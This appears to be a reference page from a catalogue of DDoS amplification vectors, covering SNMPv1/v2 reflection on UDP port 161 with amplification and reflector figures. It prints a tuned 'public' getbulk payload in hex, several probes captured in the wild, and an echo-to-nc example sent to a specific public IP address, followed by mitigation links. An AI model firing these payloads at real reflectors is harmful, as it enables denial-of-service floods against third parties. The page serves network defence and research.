 # SNMPv2/v1

## Port: 161

## Proto: UDP

## Amplification factor: 40x

## Reflector count: ~295,000 with over 2,000 bytes.

---

### Refined "public" getbulk query (34 bytes)

- **Responding with an average of 2300 bytes**, leading to an amplification factor of ~40x.
- `\x30\x20\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x13\x02\x02\x00\x01\x02\x01\x00\x02\x01\x46\x30\x07\x30\x05\x06\x01\x28\x05\x00`

### Example larger typical abuseful probes (38 bytes)

- `302402010104067075626c6963a517020465c941f002010002010a3009300706032b06010500`
- `302402010104067075626c6963a517020474cb377402010002010a3009300706032b06010500`
- `302402010104067075626c6963a51702047b73cc130201000201643009300706032b06010500`
- `45000043000040004011e0cea8eb464029b540fbce1900a1002f0a13302502010104067075626c6963a51802043054bc3f020100020208ca3009300706032b06010500`

### Example request/response

- > ~# echo -ne '\x30\x24\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x17\x02\x04\x7b\x73\xcc\x13\x02\x01\x00\x02\x01\x64\x30\x09\x30\x07\x06\x03\x2b\x06\x01\x05\x00' |nc -u 31.133.49.250 161
      <pre>2561 bytes</pre>

### Documentation

- https://tools.ietf.org/html/rfc3412
- https://kb.iweb.com/hc/en-us/articles/230268048-Guide-to-Public-SNMP-Amplification-Issues
- https://www.darkreading.com/attacks-breaches/snmp-ddos-attacks-spike/d/d-id/1269149

### Mitigations

- https://www.bitag.org/documents/SNMP-Reflected-Amplification-DDoS-Attack-Mitigation.pdf
